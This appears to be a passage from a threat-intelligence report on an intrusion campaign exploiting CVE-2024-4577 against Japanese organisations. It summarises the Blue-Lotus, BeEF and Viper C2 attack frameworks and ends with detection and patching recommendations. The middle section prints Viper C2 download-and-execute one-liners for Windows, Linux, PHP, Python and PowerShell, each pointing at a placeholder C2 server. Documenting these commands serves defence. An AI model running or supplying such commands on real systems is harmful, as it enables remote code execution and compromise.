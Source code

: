 **Blue-Lotus** is a JavaScript webshell cross-site scripting attack framework with a Chinese administrative panel and features for payload generation, screen capture, reverse shell access, cookie stealing, and CMS user creation. **BeEF** is a browser exploitation framework allowing command execution within hooked browsers, including XSS vulnerability checks, arbitrary request submission, local network interaction, and sending commands via WebRTC. **Viper C2** is a modular command and control framework with plugins for antivirus bypass, intranet tunneling, file management, remote command execution, payload generation (Meterpreter for various platforms and formats), and network topology display. Examples of generated command formats from Viper C2 for web delivery include:
*   Windows: `regsvr32 /s /n /u /i:hxxp[://]C2 server:port/SWLonxen.sct scrobj.dll`
*   Linux: `wget -qO lYoSQUgn --no-check-certificate hxxp[://]C2 server:port/oegqPVin; chmod +x lYoSQUgn; ./lYoSQUgn& disown`
*   PHP: `php -d allow_url_fopen=true -r "eval(file_get_contents(' :/bIBNfnlE', false, stream_context_create(['ssl'=>['verify_peer'=>false,'verify_peer_name'=>false] ])));"`
*   Python: `python -c "import sys;import ssl;u=import('urllib'+{2:'',3:'.request'}[sys.version_info],fromlist=('urlope n',));r=u.urlopen(' :/wXAOAUIK', context=ssl._create_unverified_context());exec(r.read());"`
*   PowerShell (Linux download and execute): `wget -O 1737698200.elf --no-check-certificate hxxps[://]C2 server:port  /api/v1/d/?en=/6trTQMIGpJgIMksMielQg%3D%3D && chmod 755  1737698200.elf && ./1737698200.elf`

### Countries
Japan

### Industries
Technology \
Telecommunications \
Entertainment \
Education and research institutions \
E-commerce

### Recommendations
*   Ensure all Windows-based PHP installations using CGI configurations are patched against **CVE-2024-4577**.
*   Monitor network traffic for connections to the identified C2 server IP address and the associated URLs and ports.
*   Inspect web server logs for attempts to exploit **CVE-2024-4577**, looking for specifically crafted POST requests.
*   Monitor for the execution of PowerShell commands downloading and executing scripts from external sources, especially from the identified C2 server.
*   Detect and block the download and execution of Cobalt Strike payloads.
*   Monitor for post-exploitation activities associated with the "TaoWu" Cobalt Strike kit, including the execution of tools like sharpTask.exe, SharpHide.exe, SharpStay.exe, Ladon.exe, and fscan.exe.
*   Look for the use of "Potato" exploits (JuicyPotato, RottenPotato, SweetPotato) for privilege escalation.
*   Monitor for modifications to registry keys related to persistence (e.g., Run key).
*   Detect the creation or modification of scheduled tasks.
*   Monitor for the clearing of Windows event logs using `wevtutil.exe`.
*   Detect the uploading and execution of network scanning utilities like `fscan.exe` and information gathering tools like `Seatbelt.exe`.
*   Monitor for attempts to abuse Group Policy Objects using tools like `SharpGPOAbuse.exe`.
*   Detect the execution of Mimikatz for credential dumping.
*   Monitor DNS queries for the Chinese 114DNS service IP address **114[.]114[.]114[.]114**.
*   Utilize Cisco security products like Secure Endpoint, Cloud Web Security, Secure Firewall/Secure IPS, Stealthwatch, Threat Grid, Umbrella, and Secure Web Appliance for detection and prevention.
*   Ensure Cisco Duo multi-factor authentication is enforced.
*   Keep Snort Subscriber Rule Set updated by downloading the latest rule pack.
